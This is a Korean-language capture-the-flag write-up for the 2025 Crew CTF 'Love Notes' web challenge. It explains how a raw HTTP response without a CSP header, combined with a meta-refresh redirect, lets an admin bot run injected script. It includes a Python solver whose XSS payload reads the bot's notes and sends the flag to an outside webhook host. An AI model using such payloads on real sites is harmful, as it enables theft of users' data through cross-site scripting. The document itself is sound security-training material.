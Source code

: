 ```yaml
---
title: 2025 Crew CTF - Loves Note
published: 2025-09-26
description: " "
tags: [CTF, crewctf]
category: CTF
draft: false
---
```

## TL;DR
meta 기반 Open Redirect와 XSS를 통해 CSP가 없는 게시글로 봇을 유도, admin 게시글에 있는 flag를 탈취하는 문제이다.

## Description

로그인하면 notes를 작성할 수 있는 페이지와, 리포트 기능이 존재한다는 걸 알 수 있다.

```js
const reviewNote = async (reviewNoteId) => {
    const showNoteDiv = document.getElementById('show-note');
    const response = await fetch(`/api/notes/`+reviewNoteId)
    const note = await response.text();
    showNoteDiv.style.display = 'block';
    
    showNoteDiv.innerHTML = `
        <h3>Note ID: ${reviewNoteId}</h3>
        <p>${note}</p>
    `;
}
```

```js
// Review note
await sleep(2000);
try{
    await page.goto(HOSTNAME + '/dashboard?reviewNote='+noteId);
} catch(error) {
    console.log(error);
}
await sleep(2000);
try{page.close()} catch{};
```

봇은 `?reviewNote`를 사용해 게시글을 읽어온다.

```js
res.setHeader('Content-Security-Policy', `script-src ${HOSTNAME}/static/dashboard.js https://js.hcaptcha.com/1/api.js; style-src ${HOSTNAME}/static/; img-src 'none'; connect-src 'self'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self'; frame-src 'none';`);
```

전역적으로 CSP 정책이 엄격하게 설정되어 있어 바로 flag를 획득하는 건 불가능하지만, `/api/notes/{noteId}`에서 취약점이 발생한다.

```js
// Look mom, I wrote a raw HTTP response all by myself!
// Can I go outside now and play with my friends?
const responseMessage = `HTTP/1.1 200 OK
Date: Sun, 7 Nov 1917 11:26:07 GMT
Last-Modified: the-second-you-blinked
Type: flag-extra-salty, thanks
Length: 1337 bytes of pain
Server: thehackerscrew/1970 
Cache-Control: never-ever-cache-this
Allow: pizza, hugs, high-fives
X-CTF-Player-Reminder: drink-water-and-keep-hydrated

${note.title}: ${note.content}

`
res.socket.end(responseMessage)
```

`/api/notes/{noteId}` 라우트는 서버에서 Raw HTTP 패킷을 직접 만들어 응답을 보내는데, `responseMessage`에서 어떠한 CSP 헤더도 설정되어 있지 않기에 문제 없이 인라인 스크립트를 실행할 수 있다.

다음과 같은 방법으로 플래그를 leak한다.
1. `/dashboard?reviewNote`에서 `/api/notes/{noteId}`로의 Meta tag Open Redirect
2. XSS를 통한 웹훅 서버로의 전송

필자는 `/api/notes`에서 플래그를 파싱해 보내는 방법을 사용했다.

## Solver
```py
import requests

r = requests.Session()

url = 'https://inst-ca0cfd06b8022715-love-notes.chal.crewc.tf'
webhook = 'https://vuebjrp.request.dreamhack.games'

def save_note(title, content):
  res = r.post(f'{url}/api/notes', data = { "title": title, "content": content })
  return res.json()

def register():
  res = r.post(f'{url}/api/auth/register', data = { "email": "test", "password": "test" })
  print(res.text)

def login():
  res = r.post(f'{url}/api/auth/login', data = { "email": "test", "password": "test" })
  print(res.text)

def report(note_id):
  res = r.post(f'{url}/report', data = { "noteId": note_id })
  print(res.text)

register()
login()

# Script file save
payload = f'fetch("/api/notes/").then(r => r.text()).then(rtext => location.href = "{webhook}?q=" + "crew" + (rtext.split("crew")[1].split("}}")[0]) + "}}")//'
script_note_id = save_note(payload, '//')['id']

# Get Script file
script_note_id_2 = save_note(f'<script src="{url}/api/notes/{script_note_id}"></script>', 'test1')['id']

# ?reviewNote open redirect -> script -> execute
open_redirect = save_note(f'<html><meta http-equiv="refresh" content="0; url=/api/notes/{script_note_id_2} "/></html>', 'test2')['id']

report(open_redirect)
```
